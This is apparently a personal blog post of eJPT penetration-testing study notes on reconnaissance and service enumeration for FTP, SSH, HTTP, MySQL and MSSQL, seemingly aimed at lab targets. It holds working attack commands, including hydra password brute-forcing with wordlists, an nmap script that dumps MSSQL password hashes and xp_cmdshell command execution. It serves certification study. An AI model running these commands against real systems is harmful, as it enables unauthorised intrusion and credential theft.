 ```yaml
---
title: 'Enumeration'
description: 'A resume from INE Learning Path for eJPT cert and some self notes to get success'
pubDate: 'May 12 2023'
slug: 'trip/enumeration'
---
```


## Passive information gathering

**WAF:** WAFWOOF Github tool.

Subdomain Enumeration

    - Gobuster
    - wfuzz
    - etc

**Google Dorks**

- http://exploit-db.com

- [Google Dorking](https://www.googleguide.com/advanced_operators_reference.html)

- [Google Hacking](https://www.exploit-db.com/google-hacking-database)

**Email Harvesting**

    - theHarvester
    # The tool gathers names, emails, IPs, subdomains, and URLs by using
    multiple public resources that include:

**Leaked password dbs**

    - haveibeenpwned.com
    - firepwd

## Active information gathering

DNS Zone Transfers

    - dnsenum
    - dig
    - fierce

    Host, Port, Services
    - nmap

### Info

Windows Recon: Nmap Host Discovery
Winwos Reconnaissance: SMB

## Footprinting and scanning

### Protocol

What protocol matches MAC addresses to IP addresses?

**arp**
**smb**
**icmp**
**http**

### Tools

    - Wireshark
    - ARP-SCAN
    - PING
    - FPING
    - NMAP nmap -sn 10.10.33.14/24
    - ZENMAP (GUI)
    - RustScan
    - Masscan

<img src="https://www.ictshore.com/wp-content/uploads/2016/12/1017-02-TCP_States_in_a_connection.png" width=864px style="background-color: #eee" >

## Enumeration

### FTP

File transfer protocol uses TCP port 21.

```bash
finger root@demo.xyz

# Find ftp potentially script from nmap.

ls -la /usr/share/nmap/scripts | grep ftp-*

# Using hydra brute-force.
$hydra -L /usr/share/metasploit-framework/data/wordlists/users.txt -P /usr/share/metasploit-framework/data/wordlists/pass.txt target -t 4 ftp(protocol)

# ftp target
and we have anonymous login

$nmap target -p21 --script ftp-anon
```

### SSH

```bash
$nmap target -p22 --script ssh-hostkey --script-args ssh_hostkey=full
#ssh-rsa: .*?
#verify is student have password
$nmap target -p22 --script ssh-auth-methods
--script-args="ssh.user=student"

#attack

$hydra -l student -P /usr/rockyou.txt target ssh(protocol)

# How many “encryption_algorithms”?
nmap --script ssh2-enum-algos 192.201.39.3

# What is the ssh-rsa host key being used by the SSH server.
nmap --script ssh-hostkey --script-args ssh_hostkey=full 192.201.39.3

# Which authentication method is being used by the SSH server for user “rosa”.
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=rosa" 192.201.39.3
```

### HTTP

http target

```bash
find directorios default
$dirb target

$nmap target -sCV -p80 --script http-headers
- http-enum
- http-methods
- http-webdav-scan

```

### SQL

```bash

$nmap target -sCV -p3306 --script=mysql-empty-password

$nmap target -sCV -p3306 --script=mysql-users --script-args="mysqluser='root', mysqlpass=''"

$nmap target -sCV -p3306 --script=mysql-variables --script-args="mysqluser='root', mysqlpass=''"

$nmap target -sCV -p3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

#attack

$hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target mysql(protocol)

#WINDOWS

$nmap target -p1433 --script ms-sql-info

$nmap target -p1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433

$nmap target -p1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/common_password.txt

$nmap target -p1433 --script ms-sql-empty-password

$nmap target -p1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query='SELECT * FROM master..syslogins' -oN output

$nmap target -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria

$nmap target -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"

```
